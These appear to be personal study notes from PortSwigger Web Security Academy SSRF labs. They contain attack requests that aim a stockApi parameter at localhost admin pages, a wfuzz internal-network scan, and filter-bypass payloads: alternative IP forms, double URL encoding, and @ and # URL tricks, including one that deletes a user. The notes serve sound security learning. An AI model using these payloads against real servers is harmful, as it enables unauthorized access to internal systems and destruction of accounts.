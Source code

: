 
**Legit request:**

```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```


**attack vector:**

`stockApi=`

**Attack req:**

```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 

stockApi=http://localhost/admin
```

`stockApi=http://127.0.0.1/admin`

**Lab:**

`stockApi=http%3A%2F%2Flocalhost%2Fadmin`

`stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete%3fusername%3dcarlos`


**wfuzz to scan network:**

```
wfuzz -c -z range,1-255 -d "stockApi=http://192.168.0.%s:8080/admin" 
-H "Host: 0a19009f0465ca8f80355d4600e60008.web-security-academy.net" 
-H "Cookie: session=ToNm50JKClOnHmBKM5w2IyXeKlxutFCL" 
-H "Content-Type: application/x-www-form-urlencoded" 
-H "Sec-Ch-Ua-Platform: \"Linux\"" 
-H "Accept-Language: en-US,en;q=0.9" 
-H "Sec-Ch-Ua: \"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"" 
-H "Sec-Ch-Ua-Mobile: ?0" 
-H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36" -H "Accept: */*" 
-H "Origin: https://0a19009f0465ca8f80355d4600e60008.web-security-academy.net" 
-H "Sec-Fetch-Site: same-origin" 
-H "Sec-Fetch-Mode: cors" 
-H "Sec-Fetch-Dest: empty" 
-H "Referer: https://0a19009f0465ca8f80355d4600e60008.web-security-academy.net/product?productId=13" 
-H "Accept-Encoding: gzip, deflate, br" 
-H "Priority: u=1, i" 
https://0a19009f0465ca8f80355d4600e60008.web-security-academy.net/product/stock
```


**SSRF hacktricks:**

#### blacklist-based input filters

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
 
** lab:**

`stockApi=http%3A%2F%2Flocalhost%2Fadmin` did not work

trying `localhost` --> `127.0.0.1` & `127.1`

`stockApi=http%3A%2F%2F127.0.0.1%2Fadmin`
`stockApi=http%3A%2F%2F127.1%2Fadmin`

trying double URL encoding for admin path

`stockApi=http%3A%2F%2F127.1%2F%2561%2564%256d%2569%256e`

`stockApi=http%3A%2F%2F127.1%2F%2561%2564%256d%2569%256e`

- double encoding worked `localhost` --> `127.1`   |    `admin` --> `%2561%2564%256d%2569%256e`

- deleting user account carlos
`stockApi=http%3A%2F%2F127.1%2F%2561%2564%256d%2569%256e%2Fdelete%3fusername%3dcarlos`




#### whitelist-based input filters


- You can embed credentials in a URL before the hostname, using the `@` character. For example:
    `https://expected-host:fakepassword@evil-host`
- You can use the `#` character to indicate a URL fragment. For example:
    `https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
    `https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try [double-encoding](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-double-url-encoding) characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
- You can use combinations of these techniques together.


**Lab:**


blocked reqs:

`stockApi=http%3A%2F%2Fstock.weliketoshop.net@localhost%2F%2561%2564%256d%2569%256e`
`stockApi=http%3A%2F%2Fstock.weliketoshop.net%2540localhost%2F%2561%2564%256d%2569%256e`
`stockApi=http%3A%2F%2Fstock.weliketoshop.net%2532localhost%2F%2561%2564%256d%2569%256e`

`stockApi=http%3A%2F%2Flocalhost@stock.weliketoshop.net%2F%2561%2564%256d%2569%256`




`stockApi=http%3A%2F%2Flocalhost%2523@stock.weliketoshop.net%2F%2561%2564%256d%2569%256e%2Fdelete%3fusername%3dcarlos`


```
http://localhost#@stock.weliketoshop.net/admin
```

- The `#` appears between `localhost` and `@stock.weliketoshop.net/admin`, which is unusual. The fragment identifier typically follows the domain, but `localhost#` would make the rest of the URL after `#` be treated as part of the fragment (i.e., the server and path after `#` might not be recognized as part of the URL at all).

#### What’s likely happening here:

- **Malformed URL**: The `#` symbol is causing the part after it to be treated as a **fragment**, meaning the `@stock.weliketoshop.net/admin` part would be ignored by the server and instead processed client-side as a fragment identifier.
- **The `@` symbol**: If there was supposed to be authentication info (username and password), this part would typically go before the `@` symbol, but it's not formatted properly.





